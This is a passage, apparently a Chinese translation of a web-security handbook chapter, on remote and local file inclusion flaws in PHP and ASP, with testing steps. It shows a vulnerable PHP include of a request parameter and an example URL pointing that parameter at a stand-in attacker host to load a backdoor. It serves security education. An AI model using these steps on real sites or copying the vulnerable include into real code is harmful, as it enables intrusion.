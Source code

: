 PHP语言特别容易受到文件包含漏洞的影响，因为它的包含功能可以接受远程文件路径。 这是PHP应用程序中众多漏洞的基础。

考虑一个向不同位置的人们提供不同内容的应用程序。 当用户选择他们的位置时，它通过请求参数传达给服务器，如下所示：
```
https://wahh-app.com/main.php?Country=US
```
应用程序按以下方式处理Country参数：
```
$country = $_GET['Country'];
include( $country . '.php' );
```
这将导致执行环境加载位于Web服务器文件系统上的文件US.php。 该文件的内容被有效地复制到main.php文件中并执行。

攻击者可以以不同的方式利用此行为，其中最严重的方法是将外部URL指定为包含文件的位置。 PHP包含函数接受此作为输入，执行环境检索指定的文件并执行其内容。 因此，攻击者可以构建包含任意复杂内容的恶意脚本，将其托管在他控制的Web服务器上，然后通过易受攻击的应用程序功能调用该脚本以执行该脚本。 例如：
```
https://wahh-app.com/main.php?Country=http://wahh-attacker.com/backdoor
```

## 2.2 本地文件包含(Local File Inclusion)

在某些情况下，将根据用户可控制的数据加载包含文件，但是无法在外部服务器上指定文件的URL。 例如，如果将用户可控制的数据传递给ASP函数Server.Execute，则攻击者可能能够执行任意ASP脚本，只要该脚本与调用该函数的应用程序属于同一应用程序。

在这种情况下，您仍然可以利用应用程序的行为来执行未经授权的操作：
- 服务器上可能存在无法通过常规路由访问的服务器可执行文件。 例如，可以通过应用程序范围的访问控制来阻止对路径`/admin`的任何请求。 如果您可以使敏感功能包含在您有权访问的页面中，则可以访问该功能。
- 服务器上可能有静态资源受到类似保护，以防止直接访问。 如果可以使它们动态地包含在其他应用程序页面中，则执行环境通常会简单地将静态资源的内容复制到其响应中。

## 2.3 查找文件包含漏洞(Finding File Inclusion Vulnerabilities)

文件包含漏洞可能与用户提供的任何数据有关。 它们在指定语言或位置的请求参数中特别常见。 当服务器端文件的名称作为参数显式传递时，它们通常也会出现。

**HACK STEPS**<br>
要测试远程文件包含缺陷，请按照下列步骤操作：
- 1.在每个目标参数中提交您控制的Web服务器上资源的URL，并确定是否从托管目标应用程序的服务器接收到任何请求。
- 2.如果第一次测试失败，请尝试提交包含不存在的IP地址的URL，并确定在服务器尝试连接时是否发生超时。
- 3.如果发现该应用程序容易受到远程文件包含的攻击，请使用有关语言的可用API构建恶意脚本，如针对动态执行攻击所述。

与支持远程文件包含的脚本环境相比，本地文件包含漏洞可能在更广泛的脚本环境中存在。 要测试本地文件包含漏洞，请按照下列步骤操作：
- 1.提交服务器上已知的可执行资源的名称，并确定应用程序的行为是否发生任何更改。
- 2.提交服务器上已知静态资源的名称，并确定其内容是否复制到应用程序的响应中。
- 3.如果该应用程序容易受到本地文件包含的影响，请尝试访问您无法直接通过Web服务器访问的任何敏感功能或资源。
- 4.测试以查看是否可以使用前面描述的遍历技术访问其他目录中的文件。


[Chapter 10 Attacking Back-End Components(1)-Injecting OS Commands(2)](https://dm116.github.io/2020/03/16/attacking-back-end-components_1_2/)<br>
[Chapter 10 Attacking Back-End Components(3)-Injecting into XML Interpreters](https://dm116.github.io/2020/03/16/attacking-back-end-components_3/)<br>
